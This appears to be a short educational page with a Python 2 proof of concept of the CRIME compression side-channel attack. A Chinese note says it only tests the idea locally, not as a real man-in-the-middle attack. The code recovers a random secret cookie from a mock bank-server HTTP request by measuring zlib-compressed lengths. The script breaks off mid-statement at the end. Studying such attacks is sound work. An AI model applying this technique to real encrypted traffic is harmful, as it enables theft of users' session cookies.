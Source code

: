 这个poc并不是模拟真实环境下的中间人攻击，只是在python中利用CRIME的思想验证了攻击的可行性。

```
import string
import zlib
import sys
import random
 
charset = string.letters + string.digits
 
COOKIE = ''.join(random.choice(charset) for x in range(30))
 
HEADERS = ("POST / HTTP/1.1\r\n"
           "Host: thebankserver.com\r\n"
           "Connection: keep-alive\r\n"
           "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1\r\n"
           "Accept: */*\r\n"
           "Referer: https://thebankserver.com/\r\n"
           "Cookie: secret="+COOKIE+"\r\n"
           "Accept-Encoding: gzip,deflate,sdch\r\n"
           "Accept-Language: en-US,en;q=0.8\r\n"
           "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3\r\n"
           "\r\n")
BODY =    ("POST / HTTP/1.1\r\n"
           "Host: thebankserver.com\r\n"
           "Connection: keep-alive\r\n"
           "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1\r\n"
           "Accept: */*\r\n"
           "Referer: https://thebankserver.com/\r\n"
           "Cookie: secret=")
cookie = ""
 
def compress(data):
 
    c = zlib.compressobj()
    return c.compress(data) + c.flush(zlib.Z_SYNC_FLUSH)
def getposset(perchar,chars):
    posset = []
    baselen = len(compress(HEADERS+perchar))
    for i in chars:
        t = len(compress(HEADERS+ perchar+i))
        if (t<=baselen):
            posset += i
    return posset
def doguess():
    global cookie
    while len(cookie)<30:
        posset = getposset(BODY+cookie,charset)
        trun = 1
        tem_posset = posset
        while 1<len(posset):
            tem_body = BODY[trun:]
            posset = getposset(tem_body+cookie,tem_posset)
            trun = trun +1
        if len(posset)==0:
            return False
        cookie += posset[0]
        print posset[0]
        return True
 
while BODY.find("\r\n")>=0:
    if not doguess():
```